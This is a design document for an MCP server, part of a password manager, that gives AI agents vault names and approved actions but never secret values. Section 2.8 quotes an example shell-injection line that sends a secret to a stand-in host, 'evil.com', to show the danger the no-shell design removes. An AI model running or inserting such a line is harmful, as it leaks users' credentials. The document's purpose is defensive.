

# MCP server (`kagisecure-mcp`)

Status: **implemented in M2, and served by the macOS app since M4.** All nine tools below exist
and are exercised end to end by `crates/kagisecure-cli/tests/mcp.rs` (against the CLI daemon) and
`crates/kagisecure-agent/tests/sidecar.rs` (against the library the app hosts). The thing on the
other end of the IPC socket is now the native app, with a Touch ID approval sheet — see §11. The
terminal daemon is retained as the headless channel and is a thin wrapper over the same library
([ADR-0013](decisions/0013-agent-library-split.md)).

> **Contrast, M6.** This channel's defining property is that **no message can carry a secret
> value**, enforced by the crate graph ([ADR-0002](decisions/0002-no-secret-values-over-mcp.md)).
> The browser-extension channel added in M6 is the deliberate opposite: it carries exactly one,
> in exactly two response fields, because a password manager that cannot fill a password field
> is not one. The two are separate crates, separate sockets and separate wire formats precisely
> so that the difference is structural rather than a matter of care. See
> [browser-extension.md](browser-extension.md) and
> [ADR-0018](decisions/0018-browser-extension-secret-crossing.md).

`kagisecure-mcp` is a stdio MCP server built on `rmcp` 3.2.0 (2026-08-31). It is spawned by the
MCP client (Claude Code, Claude Desktop, Codex CLI, Cursor) as a child process, and it talks to
the long-running process that owns the unlocked vault over local IPC.

> Note on protocol version: rmcp 3.2.0 reaches MCP **2026-07-28** only through the `discover`
> lifecycle. An `initialize` handshake — what every stdio client does today — negotiates the
> newest *legacy* version, **2025-11-25**, and that is what a session with Claude Code actually
> uses. Nothing in the tool surface depends on the difference. (ADR-0007.)

## 1. The invariant

> **No tool exposed by `kagisecure-mcp` returns a secret value, in whole or in part, in any
> encoding, under any argument.**

Not masked. Not truncated. Not "the first four characters to confirm". Not a hash. Not a
length. The capability does not exist, so there is no argument, jailbreak, or prompt injection
that can produce it.

What agents *do* get: names, structure, and **actions**. An agent can discover that a `staging`
environment exists with `DATABASE_URL` and `STRIPE_SECRET_KEY` in it, and it can ask for those
to be written into `./` as a `.env` — and a human approves that with a fingerprint. It never sees
the characters.

## 2. Tool list

| Tool | Kind | Requires approval | Returns |
| --- | --- | --- | --- |
| `list_vaults` | read (metadata) | no | vault names/ids |
| `list_items` | read (metadata) | no | item titles, categories, tags |
| `list_environments` | read (metadata) | no | environment names/ids, var counts |
| `describe_item` | read (metadata) | no | field **labels and kinds** only |
| `create_environment` | write (structure) | yes (lightweight) | new env id |
| `add_variables` | write (structure) | yes, **values entered by the human** | var names added |
| `write_env_file` | **injection** | yes (biometric) | path + var names + lease id |
| `run_with_env` | **injection** | yes (biometric) | exit code, stdout/stderr masked by default (`output`) |
| `revoke_env_file` | cleanup | no | shredded paths |

All nine are implemented, and since M4 both of the behaviours this paragraph used to defer are
real: the approval is a Touch ID (or login-password) gate in the app's own sheet, and
`add_variables`'s pending entries are typed into a `SecureField` in the app's Agent access →
Environments editor. `kagisecure env add-var` still works and is what the headless daemon points
you at.

Nine tools. The list is fixed; there is no plugin mechanism. That is deliberate — a small,
auditable surface is the product.

Compare 1Password's Environments MCP server (`authenticate`, `create_environment`,
`rename_environment`, `append_variables`, `list_environments`, `list_variables`,
`create_local_env_file`, `list_local_env_files`). kagisecure's set is the same shape, minus
`authenticate` (there is no account; unlock happens in the native app) and plus `run_with_env`
and `revoke_env_file`.

### 2.1 `list_vaults`

```json
{
  "name": "list_vaults",
  "description": "List vaults the user has made visible to agents. Returns names only, never secret values.",
  "inputSchema": { "type": "object", "properties": {}, "additionalProperties": false }
}
```

Result:

```json
{
  "vaults": [
    { "id": "v_7f3a...", "name": "Personal", "item_count": 42, "environment_count": 3 },
    { "id": "v_91cd...", "name": "Acme Corp", "item_count": 118, "environment_count": 7 }
  ]
}
```

Only vaults with `agent_visible = true` appear. See threat-model M-9.

### 2.2 `list_items`

```json
{
  "name": "list_items",
  "description": "List item titles and categories in a vault. Never returns field values.",
  "inputSchema": {
    "type": "object",
    "properties": {
      "vault_id": { "type": "string" },
      "query":    { "type": "string", "description": "Optional substring match on title or tag." },
      "category": {
        "type": "string",
        "enum": ["Login","Password","SecureNote","CreditCard","Identity","ApiCredential","Server","Database","SshKey","SoftwareLicense","Document","Environment"]
      },
      "limit":  { "type": "integer", "minimum": 1, "maximum": 200, "default": 50 },
      "cursor": { "type": "string" }
    },
    "additionalProperties": false
  }
}
```

Result: `{ "items": [{ "id", "title", "category", "tags", "updated_at" }], "next_cursor": null }`

`vault_id` is **optional** as implemented, contrary to the `required` list this document
originally carried: omitting it searches every vault the user has made agent-visible, which is
what an agent that has just called `list_vaults` and found one vault actually wants. The same
applies to `list_environments`.

### 2.3 `list_environments`

```json
{
  "name": "list_environments",
  "inputSchema": {
    "type": "object",
    "properties": { "vault_id": { "type": "string" } },
    "additionalProperties": false
  }
}
```

Result: `{ "environments": [{ "id", "name", "description", "variables": [{ "name", "kind",
"populated", "hint" }], ... }] }`

As implemented, each variable is an object rather than a bare name, so that an agent can tell a
bound variable from one still waiting on the user (`populated: false`) without a second call.
Names and binding *kinds* only; there is still no tool that takes an environment id and returns
values.

Variable **names** are returned; values are not, and there is no tool that takes an environment id
and returns values. (1Password's equivalent is `list_variables`; we fold it into
`list_environments` because there is no reason to make two calls for names.)

### 2.4 `describe_item`

```json
{
  "name": "describe_item",
  "description": "Describe an item's structure: field labels, kinds, and whether each is concealed. Never returns values.",
  "inputSchema": {
    "type": "object",
    "properties": { "item_id": { "type": "string" } },
    "required": ["item_id"],
    "additionalProperties": false
  }
}
```

Result:

```json
{
  "id": "i_3b21...",
  "title": "Acme production database",
  "category": "Database",
  "fields": [
    { "id": "f_01", "label": "hostname", "kind": "Text",      "concealed": false, "has_value": true },
    { "id": "f_02", "label": "username", "kind": "Text",      "concealed": false, "has_value": true },
    { "id": "f_03", "label": "password", "kind": "Concealed", "concealed": true,  "has_value": true }
  ],
  "urls": ["https://db.acme.example"],
  "tags": ["prod", "postgres"]
}
```

**One-time passwords.** An item may carry a `Totp` field; `describe_item` reports it exactly as it
reports any other concealed field — `{"label": "one-time password", "kind": "Totp", "concealed":
true, "has_value": true}` — and nothing more. Not the issuer, not the period, not the digit count,
and above all not the code. A generated TOTP code is secret material for as long as it is valid,
because anyone holding it inside its window can complete a second factor with it
(vault-format.md §5.3). There is no `read_totp` tool and none will be added.

This is enforced the same way §3 enforces everything else, and by the same mechanism: the code
generator lives in `kagisecure_core::totp`, which is compiled **only** under the `secret-material`
feature. `kagisecure-mcp` and `kagisecure-ipc` depend on the core without it, so neither crate can
name `Totp`, call `code_at`, or declare a field a code could occupy — a tool returning one would be
a compile error, not a review finding. `crates/kagisecure-cli/tests/mcp.rs` asserts it twice: once
by driving every tool against a vault whose agent-visible item *has* a TOTP field and checking that
neither the Base32 seed, nor the `otpauth://` URI, nor any code valid during the run appears in the
sidecar's stdout, stderr or the audit log; and once at the schema level, by asserting that no
tool's declared input or output mentions a one-time password at all.

Note `has_value` is a boolean, not a length. **Non-concealed field values are withheld too, always,
for secret and non-secret fields alike.** `hostname` looks harmless, but "return values when they
are not secret" is exactly the kind of rule that erodes. `describe_item` returns field names,
kinds, and metadata only — never a value, decided and final. There is no `read_public_field` tool
and none will be added; that would just be a differently-named way to widen `describe_item`. This
matches 1Password's Environments MCP server, whose `list_variables` tool returns only variable
names — by design the server cannot return values, secret or not, even if an agent asks
(<https://www.1password.dev/environments/mcp-server>).

### 2.5 `create_environment`

```json
{
  "name": "create_environment",
  "inputSchema": {
    "type": "object",
    "properties": {
      "vault_id":    { "type": "string" },
      "name":        { "type": "string", "maxLength": 128 },
      "description": { "type": "string", "maxLength": 512 }
    },
    "required": ["name"],
    "additionalProperties": false
  }
}
```

Creates an empty environment. Requires a lightweight approval (a confirmation in the app, no
biometric) because it mutates the vault. `vault_id` is optional; the user's first vault is the
default. Returns the new environment's metadata.

The environment is created **visible to that agent**. Everything else in the vault is
default-deny (threat-model M-9) and stays that way, but the user approved this specific call from
this specific caller a moment earlier, and handing back an id the agent cannot then see would be
theatre. See [ADR-0007](decisions/0007-m2-daemon-and-ipc-deviations.md) §6.

### 2.6 `add_variables` — the interesting one

An agent must be able to say *"this project needs `STRIPE_SECRET_KEY`"* without being the one who
supplies the value. So `add_variables` takes **names and optional bindings, never values**.

```json
{
  "name": "add_variables",
  "description": "Request that variables be added to an environment. The agent supplies names and optionally binds them to existing vault fields. Values for new secrets are entered by the user in the kagisecure app; this tool cannot accept a value.",
  "inputSchema": {
    "type": "object",
    "properties": {
      "environment_id": { "type": "string" },
      "variables": {
        "type": "array",
        "maxItems": 50,
        "items": {
          "type": "object",
          "properties": {
            "name":  { "type": "string", "pattern": "^[A-Za-z_][A-Za-z0-9_]*$" },
            "bind_to": {
              "type": "object",
              "description": "Optional: bind to an existing vault field instead of prompting the user.",
              "properties": {
                "item_id":  { "type": "string" },
                "field_id": { "type": "string" }
              },
              "required": ["item_id", "field_id"],
              "additionalProperties": false
            },
            "hint": { "type": "string", "maxLength": 200,
                      "description": "Shown to the user in the app to explain what to paste." }
          },
          "required": ["name"],
          "additionalProperties": false
        }
      }
    },
    "required": ["environment_id", "variables"],
    "additionalProperties": false
  }
}
```

There is no `value` property. The schema cannot express one.

**How the value actually gets in.** Two paths:

1. **Bind** (`bind_to` present): the variable references an existing field in the vault. Nothing
   is entered; the app confirms and the reference is created. This is preferred — rotate once,
   every environment follows.
2. **Prompt** (`bind_to` absent): the app raises a *pending entry* for that variable name. The
   tool returns immediately with `status: "pending_user_input"` and a deep link
   (`kagisecure://environments/<env_id>/pending`), and the app brings its window forward with a
   secure text field showing the agent's `hint`. The user types or pastes the value into the
   **native app**, not into the agent's chat. The agent can poll `list_environments` to see when
   the name appears as populated.

   **As implemented in M4** the variable is stored as `VarSource::Pending { hint }` — a third
   variant vault-format §5.2 does not list, added for exactly this flow (ADR-0007 §4) — and the
   app's Agent access → Environments editor shows it with an orange **Pending** badge, the
   agent's `hint` in quotes, and a `SecureField` to type the value into. That is an **in-app
   pending list, not a URL scheme**: the `kagisecure://` deep link is still returned in the tool
   result because the schema says so, but nothing registers or handles the scheme, and the app
   does not bring itself forward for an `add_variables`. Registering `CFBundleURLTypes` is a
   small, separate change and is deliberately not made here — a URL scheme is an inbound channel
   any local process can drive, and it wants its own thought about what it is allowed to do.
   `list_environments` reports the variable as `populated: false`, and `write_env_file` refuses an
   environment that still contains one rather than writing a blank.

Result:

```json
{
  "environment_id": "e_88...",
  "bound":   ["DATABASE_URL"],
  "pending": ["STRIPE_SECRET_KEY"],
  "deep_link": "kagisecure://environments/e_88.../pending",
  "status": "pending_user_input"
}
```

> Assumption: the pending-entry flow is asynchronous (return immediately, agent polls) rather than
> blocking the tool call until the user types. Blocking a tool call for minutes interacts badly
> with client timeouts. MCP 2026-07-28's SEP-2322 `InputRequiredResult` would let the *client*
> collect the value mid-call, but that puts the secret through the client — exactly what we are
> avoiding. Noted in §8.

### 2.7 `write_env_file`

```json
{
  "name": "write_env_file",
  "description": "Write a .env file containing an environment's variables into a directory. Requires the user to approve with Touch ID / Windows Hello in the kagisecure app. Values are written by the app; they are not returned to you.",
  "inputSchema": {
    "type": "object",
    "properties": {
      "environment_id": { "type": "string" },
      "directory":      { "type": "string", "description": "Absolute path to the project directory." },
      "filename":       { "type": "string", "default": ".env", "pattern": "^\\.?[A-Za-z0-9._-]+$" },
      "variables":      { "type": "array", "items": { "type": "string" },
                          "description": "Optional subset of variable names. Default: all." },
      "overwrite":      { "type": "boolean", "default": false },
      "ttl_seconds":    { "type": "integer", "minimum": 60, "maximum": 86400, "default": 900,
                          "description": "Requested lease duration; the user may shorten it." }
    },
    "required": ["environment_id", "directory"],
    "additionalProperties": false
  }
}
```

Result:

```json
{
  "path": "/Users/x/code/acme/.env",
  "variables_written": ["DATABASE_URL", "STRIPE_SECRET_KEY", "REDIS_URL"],
  "bytes": 214,
  "lease_id": "l_4a9c...",
  "expires_at": "2026-09-09T12:15:00Z",
  "gitignored": true
}
```

Behavior:

- The **app** writes the file, with mode `0600`, after the biometric. The sidecar never touches
  the bytes. (Headless: `kagisecure daemon` writes it, after a terminal `y/N`. Both run the same
  `kagisecure-agent` code.) The write is atomic —
  a `0600` temporary file in the same directory, created with `O_EXCL`, renamed into place — so
  there is no window in which a world-readable file holds a value.
- `directory` is canonicalized (symlinks resolved) before display and before any policy check.
  A path that resolves outside the client's declared workspace root gets a louder warning.
- If the target is inside a git work tree and not covered by `.gitignore`, the approval sheet says
  so in red. **The one-click "add the ignore entry" affordance is not built** — the warning is;
  see the roadmap's M4 deferrals.
- Refuses to clobber a pre-existing file it did not write unless `overwrite: true` **and** the
  user approves the overwrite specifically.

### 2.8 `run_with_env`

```json
{
  "name": "run_with_env",
  "description": "Run a command with an environment's variables injected into its process environment. Requires user approval. Secrets are never returned to you; command output is scrubbed for known secret values.",
  "inputSchema": {
    "type": "object",
    "properties": {
      "environment_id": { "type": "string" },
      "command":        { "type": "string", "description": "Executable. Not a shell string." },
      "args":           { "type": "array", "items": { "type": "string" }, "maxItems": 64 },
      "cwd":            { "type": "string", "description": "Absolute path." },
      "variables":      { "type": "array", "items": { "type": "string" } },
      "timeout_seconds":{ "type": "integer", "minimum": 1, "maximum": 3600, "default": 300 },
      "output": { "type": "string", "enum": ["scrubbed", "none"], "default": "scrubbed",
                  "description": "\"scrubbed\": return stdout/stderr with injected values masked. \"none\": omit stdout/stderr and return only the exit code. There is no unmasked option over MCP." }
    },
    "required": ["environment_id", "command", "cwd"],
    "additionalProperties": false
  }
}
```

Result: `{ "exit_code": 0, "stdout": "...", "stderr": "...", "truncated": false, "scrubbed": 2 }`
(with `output: "none"`, `stdout`/`stderr`/`truncated`/`scrubbed` are omitted).

Behavior and caveats:

- `command` + `args` are passed to the OS directly. **No shell.** No `sh -c`. This removes an
  enormous injection surface (`; curl evil.com?$SECRET`).
- The **app** spawns the child, so the secrets are in the app's `posix_spawn`/`CreateProcess`
  environment block, not in the sidecar's.
- **Decided:** `run_with_env` returns output by default (`output: "scrubbed"`), because an agent
  that cannot see why `npm run migrate` failed is useless. Before returning, the app replaces any
  occurrence of an injected value in stdout/stderr with `[kagisecure:redacted:VARNAME]` and reports
  the count. This mirrors 1Password's `op run`, which conceals injected secret values in the child
  process's stdout/stderr by default, showing `<concealed by 1Password>` in their place
  (<https://developer.1password.com/docs/cli/reference/commands/run>,
  <https://developer.1password.com/docs/cli/secrets-environment-variables>).
- Scrubbing, like 1Password's masking, is **best effort only, and documented as such — not a
  security boundary**: it is an exact-value substring replacement, so a command that base64s,
  reverses, or splits a secret defeats it. It is a guard against accidental echo (a stack trace
  printing a connection string), not against a hostile command.
- Callers that don't need output can pass `output: "none"` to get only the exit code. **There is no
  unmasked / `--no-masking`-equivalent option over MCP.** 1Password only exposes `--no-masking` at
  the `op` CLI, never through the MCP server; kagisecure's own CLI (`kagisecure run`, M1) may offer
  an equivalent for the user's own terminal, but `run_with_env` never returns an unmasked value to
  an agent — masking is not opt-out here.
- stdout/stderr are capped (default 64 KiB each) and marked `truncated`.
- The user's approval sheet shows the resolved executable path, the full argv, and the cwd.

### 2.9 `revoke_env_file`

```json
{
  "name": "revoke_env_file",
  "inputSchema": {
    "type": "object",
    "properties": {
      "lease_id": { "type": "string" },
      "path":     { "type": "string" }
    },
    "additionalProperties": false
  }
}
```

Deletes a `.env` file kagisecure wrote (overwriting its bytes first on a best-effort basis) and
kills the lease. No approval required — revoking access is always allowed. Agents are encouraged
in the tool description to call this when they finish a task.

**Revoking is idempotent and cannot fail.** A `lease_id` that names no live lease — it expired, ran
out of uses, was revoked already, or died with a vault lock — returns `{"shredded": []}`: nothing
was left to shred, which is the same end state the caller was asking for. An agent that finishes a
task and tidies up must not be handed an error for tidying up twice.

## 3. How the invariant is enforced

Not by review, not by a redaction filter. By the type system and the crate graph.

```rust
// crates/kagisecure-core/src/model/secret.rs   -- behind feature "secret-material"
pub struct Secret(Zeroizing<Vec<u8>>);
// no Serialize, no Display, no Clone, no Into<String>
```

```toml
# crates/kagisecure-mcp/Cargo.toml
[dependencies]
kagisecure-core = { path = "../kagisecure-core", default-features = false, features = ["proto"] }
# "secret-material" is NOT enabled. The Secret type is not in this crate's graph.
```

Three layers:

1. **`Secret` has no serialization impl.** Anywhere. Writing it to the vault goes through a
   private function in `crate::vault` that touches the raw bytes; there is no public path.
2. **`kagisecure-mcp` does not compile `Secret` at all.** It depends on `kagisecure-core`'s
   `proto` feature, which contains only metadata structs (`ItemMeta`, `EnvMeta`, `FieldMeta`) and
   the IPC request/response enums. A tool returning a secret would be a compile error, not a
   review finding.
3. **The IPC protocol has no message carrying a value.** Even if layer 2 were bypassed, the app
   has nothing to send.

Enforcement (run locally via `cargo test` and `cargo tree`; ran on every PR in CI until CI was
removed on 2026-09-19):

- `cargo tree -p kagisecure-mcp` asserted not to enable `secret-material`.
- A canary test: seed a vault with a unique 32-byte marker as a secret value, drive every tool
  with property-generated arguments, assert the marker never appears in any byte written to
  stdout.
- A second canary, added in M5, for one-time passwords: the fixture's agent-visible item carries a
  TOTP field, and the test asserts that neither its Base32 seed, nor the `otpauth://` URI that
  carries it, nor any code valid at any point during the run reaches stdout, stderr or the audit
  log — plus a schema-level assertion that no tool declares a place to put one (§2.4).

## 4. Approval flow



The critical property: **step 8 (the approval sheet) is rendered by the app, in its own window.**
The model cannot see it, cannot fill it, cannot fabricate its outcome, and cannot distinguish
"user denied" from "user was in a meeting". A prompt injection can cause the *request* to be made
— it cannot cause it to be granted.

## 5. Session and lease model

A **lease** is the unit of granted access.

```rust
struct Lease {
    id: LeaseId,
    environment_id: EnvId,
    directory: PathBuf,        // canonical, exact match (no prefix matching)
    variables: BTreeSet<String>,
    client_identity: ClientIdentity,   // verified, not self-reported
    expires_at: Instant,
    uses_remaining: u32,       // default 10
    kind: LeaseKind,           // EnvFile | RunCommand
}
```

Rules:

| Rule | Rationale |
| --- | --- |
| Leases are **memory-only**, never written to disk | Restarting the app is a clean slate |
| A lease dies on: expiry, use exhaustion, vault lock, screen lock, sleep, app exit, explicit revoke | Locking must mean locking |
| Directory match is **exact after canonicalization**, not prefix | `/Users/x/code` must not authorize `/Users/x/code/../../../tmp` |
| A request broader than any existing lease (more variables, different dir, different env) triggers a **fresh biometric** | No privilege creep |
| No "always allow" / "remember forever" option exists in v1 | The whole product is the prompt |
| Default TTL 15 min, max 24 h, user can always shorten what the agent requested | Agent asks, human decides |
| Leases are listed in the app with one-click revoke, and a menu-bar/tray indicator shows the count of active leases | Visibility |

`run_with_env` leases are additionally bound to `(command, cwd)`; changing either requires a new
approval.

## 6. Audit log

Every tool call is recorded, whether it succeeded, was denied, or errored. Entries carry:

`timestamp | client_identity (verified) | client_pid | tool | environment/item ids | variable names | target path | lease_id | outcome`

They never carry values. The log is part of the encrypted vault body with a hash chain
(see [vault-format.md](vault-format.md) §8) and is browsable in the app with filters
("show me everything Cursor did today"). `kagisecure audit` prints it from the CLI.

Denied requests are kept, deliberately: a burst of denials is the signal that something is trying
things, and it is the only evidence a user will have that a prompt injection attempted an
exfiltration.

## 7. Error semantics

Errors are MCP tool errors with a stable machine-readable `code` and a human `message`. The
message is written for the *model*, so it should say what to do next.

| Code | Meaning | Model should |
| --- | --- | --- |
| `APP_NOT_RUNNING` | The native app is not running or not reachable over IPC | Tell the user to open kagisecure. Do not retry in a loop. |
| `VAULT_LOCKED` | App is running, vault is locked | Tell the user to unlock. |
| `USER_DENIED` | The user declined the approval | Stop. Do not re-request the same thing. |
| `APPROVAL_TIMEOUT` | No response in 60 s | May retry once, after telling the user. |
| `NOT_FOUND` | Unknown vault/item/environment id | Re-list. |
| `NOT_AGENT_VISIBLE` | Exists but the user has not made it visible to agents | Tell the user how to enable it; do not retry. |
| `INVALID_PATH` | Path not absolute, not a directory, or refused by policy | Fix the path. |
| `FILE_EXISTS` | Target exists and `overwrite` is false | Ask the user, then retry with `overwrite: true`. |
| `INTERNAL` | Bug | Report it. |

**Every code in this table is one the sidecar can actually return.** That is a rule, not an
observation, because each row is an instruction to the *model*: a code nothing produces is standing
advice about a situation that cannot arise, and a model that has been told what to do will
eventually find an excuse to do it.

Two codes were in an earlier draft of this table and were removed for failing that rule, rather
than given implementations to justify the text:

- `RATE_LIMITED` ("back off"). There is no rate limiter. What bounds a hostile agent here is the
  approval sheet and the lease — §5 — not a counter.
- `LEASE_EXPIRED` ("request a fresh injection"). Leases are matched *implicitly*: `write_env_file`
  and `run_with_env` look for a live lease covering the request and, finding none, ask the human
  again. No tool takes a lease id in order to *act*, so no call can fail because a lease expired.
  The one tool that accepts a `lease_id` at all is `revoke_env_file`, which is cleanup — §2.9 — and
  revoking a lease that is already gone is a successful no-op.

If either mechanism is ever built, its code comes back with it.

Two rules about error content:

1. **No oracles.** `NOT_FOUND` and `NOT_AGENT_VISIBLE` are distinguishable — because the user's
   configuration is not a secret and a confusing "not found" for a hidden item causes bad agent
   behavior. But nothing distinguishes "wrong password guessed" cases, and no error ever varies
   based on secret *contents*.
2. **No values in messages.** Enforced by the same type barrier as §3.

## 8. SEP-2322 (multi-round-trip) — considered, not adopted

MCP 2026-07-28 added Multi Round-Trip Requests (SEP-2322): a server can return an
`InputRequiredResult` mid-tool-call to have the client collect input from the user and resume.

That is a good feature and the wrong one here. It makes the **MCP client** the approval channel,
which means:

- the value (or the approval) passes through the client process, which is exactly the process we
  do not want to trust;
- a compromised or hostile client can auto-answer;
- the prompt is rendered by the agent's UI, where injected content already lives.

kagisecure's out-of-band native prompt is strictly stronger. SEP-2322 is retained as a documented
**fallback for headless/CLI-only setups** (SSH sessions, CI, a Linux box with no kagisecure GUI),
where it would gate on a terminal confirmation. If used, that mode is labelled in the UI and in
the audit log as a weaker approval channel, and it is opt-in per vault.

## 9. Client setup

The MCP binary path below is where a released app carries its sidecar
([ADR-0026](decisions/0026-helper-binaries-inside-the-app-bundle.md)); the app's "Set up your
agent" screen shows the exact path for the current install and copies these snippets, and
`kagisecure mcp path` prints it.

`Contents/Helpers`, not `Contents/MacOS`: the app's own executable is `Contents/MacOS/Kagisecure`,
the CLI that ships beside the sidecar is `kagisecure`, and on a case-insensitive filesystem those
are one file.

### Claude Code

```bash
claude mcp add --transport stdio kagisecure -- /Applications/Kagisecure.app/Contents/Helpers/kagisecure-mcp
```

Or, if installed via Homebrew:

```bash
claude mcp add --transport stdio kagisecure -- /opt/homebrew/bin/kagisecure-mcp
```

### Claude Desktop

`claude_desktop_config.json`:

```json
{
  "mcpServers": {
    "kagisecure": {
      "command": "/Applications/Kagisecure.app/Contents/Helpers/kagisecure-mcp",
      "args": []
    }
  }
}
```

### OpenAI Codex CLI

`~/.codex/config.toml`:

```toml
[mcp_servers.kagisecure]
command = "/Applications/Kagisecure.app/Contents/Helpers/kagisecure-mcp"
args = []
```

### Cursor

`.cursor/mcp.json` (project) or `~/.cursor/mcp.json` (global) — same shape as Claude Desktop:

```json
{
  "mcpServers": {
    "kagisecure": {
      "command": "/Applications/Kagisecure.app/Contents/Helpers/kagisecure-mcp",
      "args": []
    }
  }
}
```

### Windows paths

```json
{
  "mcpServers": {
    "kagisecure": {
      "command": "C:\\Program Files\\WindowsApps\\kagisecure\\kagisecure-mcp.exe",
      "args": []
    }
  }
}
```

> Assumption: the MSIX install path is not stable enough to document literally; the app will emit
> the correct absolute path. A `kagisecure mcp path` CLI subcommand prints it on both platforms.

### Let the CLI write it

Every snippet above is emitted, with the real path filled in, by:

```console
$ kagisecure mcp path
/usr/local/bin/kagisecure-mcp

$ kagisecure mcp install claude-code       # prints the `claude mcp add` command
$ kagisecure mcp install claude-desktop    # prints the JSON
$ kagisecure mcp install codex             # prints the TOML
$ kagisecure mcp install cursor            # prints the JSON
```

Adding `--write` edits that client's own standard configuration file instead of printing:
`claude_desktop_config.json` and `~/.cursor/mcp.json` are merged into (everything else in the
file is preserved), and `~/.codex/config.toml` gets the table appended if it is not already
there. `claude-code` has no file to write — it keeps its own registry — so `--write` refuses and
tells you to run the printed command.

## 10. What an agent session actually looks like

```
> Set up this repo to run against staging.

  list_vaults()                          -> [{Acme Corp}]
  list_environments(vault_id=...)        -> [{name: "acme-api / staging",
                                              variable_names: [DATABASE_URL, REDIS_URL,
                                                               STRIPE_SECRET_KEY]}]
  write_env_file(environment_id=...,
                 directory="/Users/x/code/acme",
                 ttl_seconds=900)

     [kagisecure app raises a sheet]
     Claude Code (verified) wants to write 3 variables
     to /Users/x/code/acme/.env for 15 minutes.
        DATABASE_URL, REDIS_URL, STRIPE_SECRET_KEY
     .env is covered by .gitignore.
     [Touch ID]

                                         -> {path: ".../.env",
                                             variables_written: [...],
                                             lease_id: "l_4a9c",
                                             expires_at: "..."}

  run_with_env(environment_id=...,
               command="npm", args=["run","migrate"],
               cwd="/Users/x/code/acme")
                                         -> {exit_code: 0, stdout: "...", scrubbed: 1}

  revoke_env_file(lease_id="l_4a9c")     -> {shredded: [".../.env"]}
```

At no point did the model see a value. The transcript, the provider's logs, and the agent's
context contain variable *names* and nothing else.

## 11. Try it

Two ways to run this: the **macOS app**, which is the real one, and the **headless daemon**, which
is for a machine with no GUI. They bind the same socket, so only one of them can run at a time —
whichever starts second says so and stops.

### 11.1 Build and seed a vault

```console
$ cargo build --workspace
$ export KS=./target/debug/kagisecure

$ $KS vault init                                  # prints a one-time recovery code
$ $KS item add --title "Acme staging" --category api-credential \
      --field endpoint=https://api.acme.example --secret key
$ $KS env create "acme / staging" --agent-visible
$ $KS env add-var --environment "acme / staging" \
      --name ACME_API_KEY --bind "Acme staging/key"
```

Agent access is **default-deny**, so the vault and the item have to be opened up explicitly. The
environment above was created with `--agent-visible`; without that flag it stays hidden too.

```console
$ $KS env agent-access --allow --logical-vault Personal
$ $KS env agent-access --allow --item "Acme staging"
$ $KS env agent-access                            # show the current state of everything
KIND          NAME                          AGENT
vault         Personal                      yes
environment   acme / staging                yes
item          Acme staging                  yes
```

The app can do all of this too — Agent access → Environments has a "Share this vault" switch, a
per-environment switch, and the item detail pane's own "Visible to agents" toggle.

### 11.2 Start the app

```console
$ make macos                                      # bindgen -> xcodegen -> xcodebuild
$ KAGISECURE_HOME=/tmp/ks-demo open -n build/Debug/Kagisecure.app
```

Unlock it. The sidebar footer shows a green antenna once the listener is up, and Agent access →
Set up your agent shows the socket path and the exact snippet for each client.

**Or, headless:**

```console
$ $KS daemon
Master password:
kagisecure daemon — the headless approval channel.

  vault    /Users/you/Library/Application Support/kagisecure/default.kagivault
  socket   /Users/you/Library/Application Support/kagisecure/run/daemon.sock
  approval this terminal (y/N), 60 s timeout
  vault    Personal             1 item(s), 1 environment(s)  [visible to agents]
```

### 11.3 Register the sidecar with Claude Code

In the project you want kagisecure available in — **not** in the kagisecure repo itself unless
that is genuinely what you want:

```console
$ claude mcp add --transport stdio kagisecure -s local -- "$(kagisecure mcp path)"
Added stdio MCP server kagisecure with command: /usr/local/bin/kagisecure-mcp to local config

$ claude mcp list
kagisecure: /usr/local/bin/kagisecure-mcp - ✔ Connected
```

If your app or daemon is on a non-default socket, pass it through:
`claude mcp add ... -e KAGISECURE_SOCKET=/path/to/daemon.sock -- ...`.

### 11.4 Use it

```console
$ claude -p "List the kagisecure environments and set this repo up to run against staging" \
      --allowedTools "mcp__kagisecure__*"
```

**In the app**, one sheet appears per injection:

```text
  ┌───────────────────────────────────────────────────────────────────┐
  │  “claude-code” wants to write 1 variable to a .env file           │
  │  No secret value is shown to the caller either way.               │
  ├───────────────────────────────────────────────────────────────────┤
  │  ⚠ Unverified — proceed with caution                              │
  │    ad-hoc signed — identity not attributable to a developer       │
  │    Reports itself as “claude-code”. That name is unverified.      │
  │    Process  /usr/local/bin/kagisecure-mcp · pid 51234             │
  │                                                                   │
  │  Variables   ACME_API_KEY                                         │
  │  File        /Users/you/code/acme/.env                            │
  │  Environment acme / staging                                       │
  │  ⚠ Not gitignored — this file is inside a git work tree           │
  │  Access expires after  [────────●] 15 minutes                     │
